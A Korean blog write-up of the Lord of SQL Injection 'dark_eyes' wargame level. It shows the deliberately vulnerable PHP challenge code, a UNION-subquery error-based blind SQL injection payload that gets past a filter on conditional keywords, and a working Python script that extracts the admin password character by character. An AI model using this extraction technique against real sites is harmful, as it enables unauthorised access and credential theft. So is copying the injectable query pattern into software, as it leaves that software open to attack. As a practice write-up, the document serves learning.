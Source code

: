 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - dark_eyes 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번에도 역시 `Error`를 기반으로 한 `Error Based Blind SQL Injection` 이다.  

그런데 이번에는 이 전 문제랑은 약간 다르다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id from prob_dark_eyes where id='admin' and pw=''
------------------------------------------------------------------------------------------

<?php
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>
```

이 전 문제에서 사용했던 `if`가 필터링 대상에 들어가 있고, `if`를 대체할 수 있는 `case`나 `when`도 필터링한다.  

즉, 조건문을 사용할 수가 없다.  

그래서 내가 처음에 생각했던 방법은 `and`와 `or`을 적절히 이용하는 것이다.  

만약에 `1 or 0`이라는 조건이 있다면, 앞의 `1`이 이미 참이기 때문에 뒤의 `0`은 체크하지 않는다고 생각했다.  

반면 `0 or 1`이라면, 앞의 `0`이 거짓이기 때문의 뒤의 `1`을 체크하는 것이다.  

그래서 앞에 `pw`의 길이와 내용을 알기 위한 쿼리를 넣고 뒤에 에러를 유발하는 쿼리문을 넣는다면, 앞의 조건이 참이라면 뒤의 에러 유발용 쿼리가 실행되지 않아 정상적으로 페이지가 보일 것이라고 생각했던 것이다.  

그런데 음... 내가 뭘 잘못 한 것인지 이건 아무리 해도 안됬다.  

정확히는 쿼리 스트링을 `pw=1' or id='admin' and ord('a')=97 or 9e307*2`를 넣으면 앞의 `id='admin' and ord('a')=97`가 참이기 때문에 뒤의 `9e307*2`에 대해서 에러가 발생하지 않는다.  

(9e307은 MySQL에서의 최대값이기 때문에 9e307*2를 하면 `DOUBLE value is out of range in '(9e307 * 2)'`라는 에러가 발생한다.)  

그런데 `pw=1' or id='admin' and length(pw)>0 or 9e307*2`을 넣으면 무슨 조건을 넣더라도 무조건 에러가 나왔다.  

왜 이러는지 이유를 모르겠다 ㅠㅠ  

그래서 결국 다른 방법을 찾아보아서 아래와 같이 쿼리 스트링을 구성 해 문제를 풀었다.  

```
?pw=1' or id='admin' and (select 1 union select (length(pw)=1))#
```

이렇게 하면 만약 `length(pw)=1`이 참이라면 `1`을 반환하기 때문에 `select 1 union select 1`이 되어 한 행만 결과로 나온다.  

하지만 거짓이라면 `select 1 union select 0`을 하게 되면, 2개의 행을 반환하기 때문에 `Subquery returns more than 1 row`라는 오류를 출력한다.  

이를 바탕으로 `pw`를 알아내기 위해 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1' or id='admin' and (select 1 union select (length(pw)=" + str(i) + "))%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'select id from prob_dark_eyes' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1' or id='admin' and (select 1 union select (ord(substr(pw, " + str(j) + ", 1))=" + str(i) + "))%23"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'select id from prob_dark_eyes' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

그 결과 소문자와 숫자로 구성 된 8자리 `pw`값을 얻을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 5
[+] Found 2 : 5a
[+] Found 3 : 5a2
[+] Found 4 : 5a2f
[+] Found 5 : 5a2f5
[+] Found 6 : 5a2f5d
[+] Found 7 : 5a2f5d3
[+] Found 8 : 5a2f5d3c
[+] Found password :  5a2f5d3c
[+] End
```

이 값을 쿼리스트링으로 넘겨주면 문제를 풀 수 있다.  

```
?pw=5a2f5d3c
```

```php
-------------------------------------------------------------------------------------------------
query : select id from prob_dark_eyes where id='admin' and pw='5a2f5d3c'
-------------------------------------------------------------------------------------------------

DARK_EYES Clear!
<?php
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>
```

`DARK_EYES Clear!!`
